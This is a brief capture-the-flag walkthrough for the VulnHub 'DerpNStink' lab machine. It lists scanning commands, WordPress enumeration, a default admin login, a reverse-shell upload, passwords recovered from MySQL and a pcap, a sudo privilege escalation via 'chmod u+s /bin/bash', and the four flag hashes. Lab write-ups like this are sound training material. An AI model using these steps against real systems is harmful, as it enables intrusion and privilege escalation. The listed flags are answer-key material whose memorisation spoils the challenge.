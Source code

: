 

# DerpNStink Walkthrough 

**VulnHub Link:** [DerpNStink](https://www.vulnhub.com/entry/derpnstink-1,221/)
**Difficulty:** Easy
**Release Date:** 9 Feb 2018


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.139


## 2.Web Enumeration

dirb http://192.168.100.139


http://<ip>/index.html --> view page source and 256 SHA hash found and cracked  ---> Austrialia

url/webinfo.txt --> stinky user found

wpscan --url '<url>' -e ap,u --plugins-detection --> slideshow 1.4.6 vuln found

wp-admin --> admin:admin

reverse_shell.php uploaded and www-data shell opened

on mysql, stinky user's password found ---> wegdie57

from derpissues.pcap file , mrderp password found ---> derpderpderpderpderpderp

## 3.Privilege Escalation

sudo -l --> /home/mrderp/binaries/derpy

creating and echo 'chmod u+s /bin/bash' > derpy

executing and gaining root shell --> root flag captured.

flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166)

flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)

flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)

flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)
